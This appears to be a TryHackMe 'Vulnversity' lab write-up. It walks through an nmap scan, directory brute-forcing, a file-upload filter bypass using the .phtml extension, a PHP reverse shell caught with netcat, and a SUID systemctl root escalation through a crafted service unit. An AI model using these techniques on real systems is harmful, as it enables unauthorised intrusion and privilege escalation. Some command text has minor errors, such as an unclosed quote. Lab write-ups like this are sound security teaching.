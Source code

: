 ![](./images/1.jpg) 
# TryHackMe Vulnversity Room Writeup

> Vinayak Chaturvedi

---
Complete Walkthrough [Vulnversity](https://tryhackme.com/room/vulnversity). 

###### Task 1(Deploy the Machine)
- Connect with the opvn of try hack me 
- Then start the machine.

###### Task 2(Reconnaissance )
Firstly start with scanning the machine IP with nmap. I am using the basic nmap command to do the reconnaissance:  

`nmap -sC -sV -A4 -T4 -Pn 10.10.109.165 `

- ***Enumeration***
```bash 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-14 15:44 IST
Nmap scan report for 10.10.109.165
Host is up (0.41s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=8/14%OT=21%CT=1%CU=39277%PV=Y%DS=4%DC=T%G=Y%TM=611797D
OS:4%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST1
OS:1NW6%O6=M505ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 4 hops
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h21m41s, deviation: 2h18m34s, median: 1m40s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-08-14T06:17:13-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-14T10:17:14
|_  start_date: N/A
```

- So we can see there are 6 ports open; `21, 22, 139, 445, 3128, 3333`

- Due to running a service version scan (`-sV`) we can see the version of the squid proxy running on port 3128 i.e `3.5.12`

- The `-p-400` will run a scan on the first `400` ports 

- The `-n` will not resolve `DNS`
- 
- By the http banner we can see the system is running `Ubuntu`. 

- The web-server is running on `3333`
	


###### Task 3(Locating directories using Dirsearch)

For this we will use the tool `dirsearch`.

- dirsearch is a powerful and eassy tool to do the directory bruteforcing.

Download dirsearch [here](https://github.com/maurosoria/dirsearch), or if you're on Kali Linux run `git clone https://github.com/maurosoria/dirsearch.git`


- Let's start the directory listing. 

`python3 dirsearch.py -u 10.10.109.165:3333 -e html `

- We can see there is a `internal` directory found 
	- ![](./images/2.jpg) 
	- Navigating to this dir we can see there is a upload form
	- ![](./images/3.jpg)

###### Task 4(Compromise the webserver)
- Let's see what we can do with it. At first we should see what files we are allowed upload. As usual I tried uploading a php file because there what we upload when we find an upload form, but it's not allowed  
	- ![](../images/4.jpg)
	
- We can't upload any php file. If we do this manually it'll take unnecessary time & effort. Let's automate this process. First we have to check which extensions are allowed for uploading. For this we can use burp suite intruder to automate this.

- Capture the request using burp suite and send it to intruder. Locate the file name in the request body and select the extension of the file name and click add.

- Under payloads upload the extension.txt file with following extension included:

```bash
.php 
.php2 
.php3 
.php4 
.php5 
.phtml
```

- We can clearly see there is a 200 response code in .phtml . So .phtml extension is allowed to upload
	
- Now its a Rev-shell time. I'm using the following [reverse php shell exploit](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php).
	
- Now edit this exploit to our use by changing the ip with your tun0(vpn) ip. And save the file with .phtml extension.
   
- Success. Next setup a netcat listener & navigate to the file on the server.
	- ![](./images/5.jpg)
	- ![](./images/6.jpg)
	- ![](./images/7.jpg)
- We got the shell but it's limited. We have to stabilize it.
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

- We got the user flag. User is `Bill`
	- ![](./images/8.jpg)

###### Task 5(Privilege Escalation)
- Now Privilege Escalation. As this task suggests we're gonna search for [SUID binaries](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
- Search for SUID bits on the machine `find / -perm -u=s -type f 2>/dev/null`
- There is an unusual binary here
	- ![](./images/9.jpg)
- [GTFO bins](https://gtfobins.github.io/#) is the goto for any kind of binary based Privilege Escalation.
	- ![](./images/10.jpg)

- Change the path `/bin` and here make a `sh` file

```
sh
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output.txt
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

- You may have the root flag now.

